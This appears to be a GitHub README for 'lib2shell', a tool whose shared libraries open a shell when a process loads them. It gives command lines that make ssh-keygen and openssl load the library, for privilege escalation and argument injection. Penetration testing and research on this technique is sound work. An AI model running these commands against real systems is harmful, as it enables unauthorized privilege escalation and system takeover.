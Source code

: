 # lib2shell  

**Author: Sean Pesce**  

## Overview  

Shared library implementations that transform the containing process into a shell on load (useful for privilege escalation, argument injection, file overwrites, etc.). A write-up of a privilege escalation scenario using this technique can be found on [my blog](https://seanpesce.blogspot.com/2023/03/leveraging-ssh-keygen-for-arbitrary.html).

## Usage  

**([Many examples on GTFOBins](https://gtfobins.github.io/#+library%20load))**  

Examples for Unix operating systems:  

```
ssh-keygen -D ./lib2shell.so
```

```
openssl req -engine ./lib2shell.so
```


Examples on Windows:  

```
ssh-keygen -D .\lib2shell.dll
```

```
openssl req -engine .\lib2shell.dll
```

## Compiling  

Unix:  

```
make
```

Windows:  

Open the project in Visual studio, select your build configuration ("Release" and your target architecture), then in the top menu click *Build*→*Build Solution*.  

---------------------------------------------

For inquiries and/or information about me, visit my **[personal website](https://SeanPesce.github.io)**.  
